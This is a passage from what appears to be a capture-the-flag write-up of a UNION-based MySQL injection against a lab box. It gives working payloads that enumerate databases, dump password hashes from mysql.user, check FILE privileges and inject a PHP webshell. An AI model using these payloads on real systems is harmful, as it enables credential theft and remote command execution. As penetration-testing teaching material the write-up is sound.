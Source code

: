 Now I’ll start to pull information out of this database. I like the [Pentest
Monkey MySQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-
injection/mysql-sql-injection-cheat-sheet) as a starting reference. I’ll get
the version, current user, and current database with ` Result
productName=Asus’ UNION select @@version,user(),database(),4,5,6#`:

    
    
    <tr><td>10.4.8-MariaDB</td><td>manager@localhost</td><td>warehouse</td><td>4</td><td>5</td><td>6</td></tr>
    

I can list the databases with `productName=Asus' union select
schema_name,2,3,4,5,6 from information_schema.schemata#` to see three dbs:

  * information_schema
  * mysql
  * warehouse

Since warehouse is the only non-default database, I’ll look at it’s tables
with `productName=Asus' union select table_schema,table_name,3,4,5,6 from
information_schema.tables where table_schema != 'mysql' AND table_schema !=
'information_schema'#` (I’ll hit Render in Burp to see it as a nicely
formatted table):

![image-20191125060219458](https://0xdfimages.gitlab.io/img/image-20191125060219458.png)

I did a bit more digging, but nothing interesting in those tables.

I can grab the internal password hashes with `productName=Asus' UNION select
host,user,password,4,5,6 from mysql.user#`:

![image-20191125054640263](https://0xdfimages.gitlab.io/img/image-20191125054640263.png)

I’m not sure how these could be useful right now, but I’ll start cracking
these now to have later.

Next I’ll look at the privileges for the various users with `productName=Asus'
union select grantee,privilege_type,is_grantable,4,5,6 from
information_schema.user_privileges#`. Both hector and root seem to have all
the privileges (too many to show below). manager seems to have one, FILE:

![image-20191125060613112](https://0xdfimages.gitlab.io/img/image-20191125060613112.png)

### Shell

#### File Write

Since my current user has FILE priv, I’m going to write a webshell on the box.
I’ll issue the following POST which should print out a webshell:

    
    
    productName=Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6#
    

It does write what I wanted it, but unsurprisingly, it does not execute it,
since it’s just printed as text to the screen:
